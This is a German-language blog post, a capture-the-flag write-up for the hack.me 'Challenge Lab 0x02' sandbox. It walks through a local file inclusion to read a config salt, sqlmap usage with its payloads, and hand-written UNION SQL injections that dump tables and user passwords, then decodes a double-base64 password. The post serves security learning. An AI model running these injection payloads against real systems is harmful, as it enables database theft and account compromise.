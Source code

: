 ```yaml
---
title: Hack.me - Challenge 0x02
layout: post
permalink: hack-me-challenge-0x02-2
published: true
---
```

Ich probiere mich in letzter Zeit immer mal wieder an ein paar Challenges auf [hack.me](https://hack.me).

Wer die Seite noch nicht kennt, sollte sie unbedingt ausprobieren. elearnsecurity hat eine Seite ins Leben gerufen, auf der man PHP Code mit Schwachstellen hochladen kann. Jeder Besucher kann sich seine eigene Sandbox starten und darin den Code angreifen.

Aber zurueck zu der eigentlichen Challenge "[Challenge Lab 0x02](https://hack.me/101303/challenge-lab-0x02.html)".

    Hello again.

    We are souvlakiteam!

    In this new challenge you will be able to exercise your skills in an CTF challenge.

    The following challenge is devided in 3 parts. You can move to the next part only if you hack the   previous step.
    The attacks you will need to execute are well-known attacks. Two of them are also on the OWASP 10.

    Are you ready to hack it?

    Go on!

# Spoiler-ALERT!!!!

*Wer die Challenge selber loesen will, sollte hier nicht weiterlesen.*

Man wird mit einer Bierseite begruesst.
![](/blog/img/posts/2016-06-22-012744_986x662_scrot.png)

## Local File Inclusion
Nachdem man ein wenig auf den ersten Seite rumgeklickt hat sollte erstmals die URLs

* /about.php?a=industrialization
* /about.php?a=ingredients

ins Auge gefallen sein. Auch sollte man den neuen Menupunkt "Fresh News" sehen, der hinzugekommen ist.

![](/blog/img/posts/2016-06-22-012954_297x266_scrot.png)

Unter diesem Menupunkt bekommt man den ersten Hinweis:

```
TIP [1/4]: usually the SALT is stored in a file called: config.php
```

Wenn man aber versucht eine einfache [LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion) auszufuehren mit `/about.php?a=config.php` wird man auf die Seite 404.php weitergeleitet. Auch bei `/about.php?a=index.php` ist es die gleiche 404.php.

Also befinden wir uns noch nicht im richtigen Ordner.
Ein kurzer Check mit `/about.php?a=../index.php` bestaetigt das. Aber auch hier kann keine config.php gefunden werden.
Probieren wir das ganze ohne die PHP Endung bekommen wir eine ominoese Fehlermeldung.

![](/blog/img/posts/2016-06-22-15_06_01-More-about-beer.png)

Es handelt sich hierbei also um einen Ordner. Wenn man nun dort also noch die `config.php` in dem Ordner `../config` aufruft, kann man im Quelltext den Salt finden.

![](/blog/img/posts/2016-06-22-15_08_12-http___s43216-101303-idu-sipontum-hack-me_about-php_a---_config_config-php.png)

Damit sind wir im nächsten Level bei einer SQL Injection.

## SQL Injection

Hierbei kann man sich verschiedene Biere genauer anschauen. Jedes Bier wird über die URL `/beer.php?id=<ID>` aufgerufen, wobei die ID eine beliebige Zahl sein kann.
Da ich ja schon sagte, dass es sich hierbei um eine SQLi handelt, bleibt uns nur der Parameter `id` übrig. Das es sich hierbei um eine SQLi handelt findet man im Menüpunkt "Kelly Green", der nach Eingabe eines einfachen Anführungszeichens sichtbar wird.

![](/blog/img/posts/2016-06-22-15_26_46-2---Checkpoint.png)

Nun gibt es hier 2 Methoden dies zu lösen.

### Allzweckwaffe SQLMap
Das ist die Hau-Drauf-Methode. Man startet SQLMap mit folgendem Befehl:

```
$ sqlmap --cookie="PHPSESSID=<value>" "http://<server>.hack.me/beer.php?id=1" -a --dbms=MySQL
```

SQLMap wird an dieser Stelle mehrere Injection Points finden. Hierbei sind unter anderem:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6528=6528 AND 'Xrzt'='Xrzt

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))VEkS) AND 'EYyJ'='EYyJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71716b6b71,0x42794f7544496575495347724c6a4676424d6a50434849585867774f474575575669456c77634d6f,0x716a7a6271),NULL-- -
```
Zudem bewirkt der Parameter `-a`, dass er die komplette Datenbank abspeichert.

### Old fashioned handjob
Wer kein SQLMap zur Verfügung hat, kann auch einfach die gute alte Methode verwenden und selber Hand anlegen.
Durch die Eingabe eines einfachen Anführungszeichen bekommen wir folgende Fehlermeldung, welche uns eine vorhande SQLi bestätigt.

```
Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in C:\inetpub\wwwroot\coliseum\client\sandbox\43216-101303\BODY\inner\beer.php on line 31
```

Durch weiteres rumprobieren kommt man darauf, dass die Eingabe `' union select 1,2,'3` eine gewollte Ausgabe, ohne Fehlermeldung, liefert.
![](/blog/img/posts/2016-06-22-15_22_15-Program-Manager.png)
Wir wissen nun 2 Punkte:

* 2 und 3 sind für Ausgaben gut
* Wir brauchen am Ende einen String mit einem einfachen Anführungszeichen am Anfang und keinem Anführungszeichen am Ende.

Wenn man sich ein wenig mit SQL auskennt, kann man sich aus den Bedingungen folgenden SQL Befehl zusammenbauen, um alle Tabellen Namen auszugeben:

```
' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema
```

Das `group_concat` bewirkt hierbei, dass die Namen zusammengefügt und als ein String ausgegeben werden.

![](/blog/img/posts/2016-06-22-15_25_42-Program-Manager.png)

D.h. die Datenbank hat also 2 Tabellen. Da wir das Passwort von Kelly Green holen wollen, ist die Datenbank `users` interessant.

Wenn wir unseren SQL Exploit ein wenig anpassen, bekommen wir auch alle Columns der Tabelle `users`:

```
' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema != 'mysql' AND table_schema != 'information_schema
```
![](/blog/img/posts/2016-06-22-15_29_38-Program-Manager.png)

Wir wollen das Passwort von Kelly Green aus der Tabelle `users` haben, was wir mit folgendem SQL Exploit erreichen.

```
' UNION SELECT 1,2,group_concat(concat(name,' - ',surname,' - ',password),'<br />') FROM users WHERE name='Kelly' and surname='Green
```

![](/blog/img/posts/2016-06-22-15_31_24-Program-Manager.png)

Alternativ können auch einfach alle Benutzer ausgegeben werden, wenn man die Where-Statements weglässt und ein einfaches `where 1='1` aufgrund des Anführungszeichens hinzufügt.

![](/blog/img/posts/2016-06-22-15_31_56-Our-Beers.png)

Nun haben wir also das Passwort von Kelly Green und können endlich in die letzte Challenge.

## Decipher das Passwort
Wenn man sich das Passwort näher anschaut, fällt einem das `=` am Ende auf, was base64 als Padding verwendet.
Wenn man base64 Decoder auf den String anwendet, kommt tatsächlich ein neuer String raus, der unserem ursprünglichem Salt+Passwort sehr ähnlich sieht: `S09ONTY4dfsa780fsd6b78f6bds6aft876asd658a`
Wir strippen also den Salt von dem String und kommen mit einem Passwort raus `S09ONTY4`.

Nach Eingabe des Passwortes:
![](/blog/img/posts/2016-06-22-15_35_44-3---Final-STEP.png)

Awwww....

Wir haben aber auch den Tip noch nicht beachtet:

```
TIP [1/4]: TIP: you have the dump of database, but we know that in the table users someone writes the algorithm to store the password...	
```

Hierzu muss man wissen, dass man in MySQL Kommentare zu Tabellen speichern kann. Diese kann man einfach über die Information_Schema Datenbank abfragen.

```
' UNION SELECT 1,2,group_concat(table_comment,'<br />') FROM information_schema.tables WHERE table_name='users
```

Dies liefert uns den Algorithmus: `password = base64(base64(password) + salt)`

Wir müssen also `S09ONTY4` nochmal mit base64 Decoden und landen bei `KON568`.

Nach Eingabe dieses Strings, endlich:
![](/blog/img/posts/2016-06-22-15_39_47-3---Final-STEP.png)

*(Wer mit SQLMap einfach die gesamte Datenbank geholt hat, hätte auch einfach nach `base64` grepen können und der Algorithmus wäre klar gewesen)* 

so long.
